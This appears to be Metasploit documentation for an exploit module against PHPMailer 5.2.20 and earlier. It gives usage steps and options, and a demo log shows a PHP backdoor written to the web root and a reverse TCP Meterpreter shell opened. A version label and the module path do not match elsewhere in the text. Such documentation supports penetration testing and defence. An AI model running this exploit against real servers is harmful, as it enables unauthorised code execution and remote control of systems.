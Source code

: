 ## Vulnerable Application

PHPMailer versions up to and including [5.2.20](https://github.com/PHPMailer/PHPMailer/archive/v5.2.20.tar.gz) are affected by a vulnerability which can be leveraged by an attacker to
write a file with partially controlled contents to an arbitrary location through injection of arguments that are passed
to the sendmail binary. This module writes a payload to the web root of the webserver before then executing it with an
HTTP request. The user running PHPMailer must have write access to the specified WEB_ROOT directory and successful
exploitation can take a few minutes.

[5.1.18](https://github.com/PHPMailer/PHPMailer/archive/v5.2.18.tar.gz) is also targeted.

## Verification Steps

  1. Install a vulnerable PHPMailer
  2. Start msfconsole
  3. `use exploit/multi/http/phpmailer_arg_injection`
  4.  Set the TARGETURI and WEB_ROOT options as applicable
  5. `exploit`
  6.  Verify the module yields a PHP meterpreter session in < 5 minutes
  7.  Verify the malicious PHP file was automatically removed

## Options

### WAIT_TIMEOUT
Seconds to wait to trigger the payload
### NameField
Name of the element for the Name field
### EmailField
Name of the element for the Email field
### MessageField
Name of the element for the Message field

## Scenarios

  Demo taken directly from [PR7768](https://github.com/rapid7/metasploit-framework/pull/7768)

```
msf (S:0 J:0) exploit(php_mailer) > options

Module options (exploit/linux/http/php_mailer):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST       192.168.90.134   yes       The target address
   RPORT       8080             yes       The target port
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       Path to the application root
   TRIGGERURI                   no        Path to the uploaded payload
   VHOST                        no        HTTP server virtual host
   WEB_ROOT    /www             yes       Path to the web root



Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.90.134   yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



msf (S:0 J:0) exploit(php_mailer) > rexploit
[*] Reloading module...

[*] [2016.12.29-17:03:47] Started reverse TCP handler on 192.168.90.134:4444
[*] [2016.12.29-17:03:47] Writing the backdoor to /www/0IxI5AFB.php
[*] [2016.12.29-17:04:07] Sleeping before requesting the written file
[*] [2016.12.29-17:04:07] Waiting for up to 300 seconds to trigger the payload
[+] [2016.12.29-17:04:48] Successfully found the payload
[*] [2016.12.29-17:05:50] Sending stage (34122 bytes) to 172.17.0.2
[*] Meterpreter session 4 opened (192.168.90.134:4444 -> 172.17.0.2:47280) at 2016-12-29 17:05:50 -0500
[+] [2016.12.29-17:05:50] Deleted /www/0IxI5AFB.php
[+] [2016.12.29-17:06:10] Successfully triggered the payload


meterpreter > sysinfo
Computer    : 90f0c8e8dbe4
OS          : Linux 90f0c8e8dbe4 4.8.15-200.fc24.x86_64 #1 SMP Thu Dec 15 23:09:22 UTC 2016 x86_64
Meterpreter : php/linux

meterpreter >
```
